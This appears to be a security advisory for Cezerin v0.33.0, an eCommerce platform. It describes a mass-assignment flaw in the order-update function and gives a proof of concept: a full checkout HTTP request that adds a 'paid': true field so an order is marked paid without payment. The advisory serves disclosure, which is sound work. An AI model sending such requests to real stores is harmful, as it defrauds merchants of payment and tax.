 # Cezerin v0.33.0 unauthorized order information manipulation

## Detail
Cezerin is React and Node.js based eCommerce platform. The vulnerability locates at function `getValidDocumentForUpdate` in `src/api/server/services/orders/orders.js`. This function is for generating orders. However, it is found that certain internal attributes (e.g., `paid` and `tax`) in this function can be overwritten via a conflicting name from user-input. Hence, a malicious customer can manipulate certain order status (i.e., payment status, tax) by adding additional attributes to user-input during checkout. 

```
	getValidDocumentForUpdate(id, data) {
		return new Promise((resolve, reject) => {
			if (Object.keys(data).length === 0) {
				reject(new Error('Required fields are missing'));
			}

			...

			if (data.paid !== undefined) {
				order.paid = parse.getBooleanIfValid(data.paid, false);
			}

```

## PoC
1. Add any item to the chart and checkout.
2. Add additional attributes (e.g., `paid`, `tax`) to the userinput field in the request.

```
PUT /ajax/cart HTTP/1.1
Host: localhost:3001
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
content-type: application/json
Content-Length: 588
Origin: http://localhost:3000
Connection: close
Referer: http://localhost:3000/checkout
Cookie: _ga=GA1.1.1210659521.1568517952; referrer_url=s%3A.VIG3VwE%2BqzOTa%2FTXmMU1Tj1vO3ghrPfOD%2Bh3hQpJjnw; landing_url=s%3Ahttp%3A%2F%2Flocalhost%2F.tyZ3uwyR9gAuGEJzxP6kxtZ8cXlAsZTbPH6NKLaAhHk; order_id=s%3A5d8c1cea09fadf6772d41e3e.z1%2FfRRvDSKk04wLupmxf8r1NWouIFRXDL9cq9ibTH8Y

{"shipping_address":{"address1":"","address2":"","city":"SG","country":"SG","state":"SG","phone":"","postal_code":"","full_name":"","company":"","tax_number":"","coordinates":{"latitude":"","longitude":""},"details":null},"billing_address":{"address1":"","address2":"","city":"SG","country":"SG","state":"SG","phone":"","postal_code":"","full_name":"","company":"","tax_number":"","coordinates":{"latitude":"","longitude":""},"details":null},"email":"","mobile":"","payment_method_id":"5d7d501d0ee4e592b6cced84","shipping_method_id":"5d7d501d0ee4e592b6cced83","comments":"", "paid": true}
```

3. The status of the order is set as `paid` without payments.
![](Admin-Paid.png)

4. The shipping fee of the order is set as '1.11'.
![](User-Shipping_fee.png)
